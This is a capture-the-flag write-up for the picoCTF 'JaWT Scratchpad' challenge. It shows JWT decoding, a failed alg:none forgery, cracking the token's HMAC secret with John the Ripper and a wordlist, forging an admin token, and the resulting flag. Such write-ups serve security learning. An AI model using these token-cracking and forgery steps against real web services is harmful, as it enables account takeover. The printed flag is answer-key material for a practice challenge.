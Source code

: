 # **_JaWT Scratchpad_**
## Description
>Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/63090/` or `http://jupiter.challenges.picoctf.org:63090`

## Solution
Login as `John` and grab the `JWT`
>eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiam9obiJ9._fAF3H23ckP4QtF1Po3epuZWxmbwpI8Q26hRPDTh32Y

Decode it
```console
❯ echo 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9' | base64 -d
{"typ":"JWT","alg":"HS256"}%
❯ echo 'eyJ1c2VyIjoiam9obiJ9' | base64 -d
{"user":"john"}
```
I changed `alg` to `none`, to ignore the signature, and `user` to `admin` to login as admin
```console
❯ echo -n '{"typ":"JWT","alg":"none"}' | base64
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=
❯ echo -n '{"user":"admin"}' | base64
eyJ1c2VyIjoiYWRtaW4ifQ==
```
Combine them into `JWT`, replace the cookie and refresh the page
However it doesn't work, looks like it requires a signature
Lets bruteforce the secret key used for signature with `John-The-Ripper`
```console
❯ echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiam9obiJ9._fAF3H23ckP4QtF1Po3epuZWxmbwpI8Q26hRPDTh32Y" > hash
❯ john hash --wordlist=/usr/share/dict/rockyou.txt --format=HMAC-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepico        (?)
1g 0:00:00:00 DONE (2022-07-17 15:08) 1.234g/s 9142Kp/s 9142Kc/s 9142KC/s ilovetitoelbambino..ilovejesus71
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Use [JWT.io](https://jwt.io/) to generate the token with the secret key `ilovepico`

![image](https://user-images.githubusercontent.com/70738420/179427184-8421a992-ea18-4152-8e24-303058daa533.png)

Replace the cookie with the `JWT` generated, refresh and get the flag
>picoCTF{jawt_was_just_what_you_thought_f859ab2f}